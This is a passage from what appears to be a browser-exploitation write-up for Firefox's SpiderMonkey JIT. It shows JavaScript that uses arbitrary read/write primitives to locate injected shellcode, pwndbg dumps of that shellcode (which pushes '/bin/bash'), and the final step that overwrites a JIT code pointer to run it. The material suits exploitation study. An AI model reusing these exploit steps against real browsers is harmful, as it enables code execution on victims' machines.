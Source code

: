 ```js
rce_offset = jitfunc_addr + 0x28n;
jit_addr = arb_read(rce_offset);
code_addr = arb_read(jit_addr);

sc_start = -1
for (var i = 0; i < 1000; i++) {
    sc_start = code_addr + BigInt(8 * i);
    check = arb_read(sc_start)
    if (check == 0x41414141n) {
        break;
    }
}

// The start of the real shellcode
sc_start += 0x8n;
```

```
pwndbg> search --qword -e 0x41414141
                0x6bb81133a99 add    byte ptr [r8], al /* 'AAAA' */
                0x6bb811345d8 add    byte ptr [r8], al /* 'AAAA' */
pwndbg> x/20gx 0x6bb811345d8
0x6bb811345d8:	0x0000000041414141	0x6e69622fb848686a
0x6bb811345e8:	0xe78948507361622f	0x010101010101b848
0x6bb811345f8:	0x64732eb848500101	0x0431480173646560
0x6bb81134608:	0x0101010101b84824	0x6063b84850010101
0x6bb81134618:	0x314801622c016972	0x5e106a56f6312404
0x6bb81134628:	0x485e156a56e60148	0x01485e186a56e601
0x6bb81134638:	0x6ad231e6894856e6	0x90909090050f583b
0x6bb81134648:	0x00000094361e0b0f	0x0000000000000000
0x6bb81134658:	0x00002759701a0240	0x49d98b4c01084783
0x6bb81134668:	0xfffcfb81412febc1	0x000000f6850f0001
pwndbg> x/20i 0x6bb811345d8+8
   0x6bb811345e0:	push   0x68
   0x6bb811345e2:	movabs rax,0x7361622f6e69622f
   0x6bb811345ec:	push   rax
   0x6bb811345ed:	mov    rdi,rsp
   0x6bb811345f0:	movabs rax,0x101010101010101
   0x6bb811345fa:	push   rax
   0x6bb811345fb:	movabs rax,0x17364656064732e

```

The only thing left is to overwrite the code pointer of a JIT-ed function and call it. I just choose the `sc` function itself for simplicity

```js
arb_write(jit_addr, sc_start);

// Trigger real shellcode
sc();
```


[^1]: https://firefox-source-docs.mozilla.org/setup/linux_build.html
[^2]: https://doar-e.github.io/blog/2018/11/19/introduction-to-spidermonkey-exploitation/#jsvalues-and-jsobjects
[^3]: https://webcache.googleusercontent.com/search?q=cache:ySfo3rNPA2kJ:https://labs.f-secure.com/blog/exploiting-cve-2019-17026-a-firefox-jit-bug/
[^4]: https://github.com/ducphanduyagentp/browser-pwn-advent-calendar/tree/main/06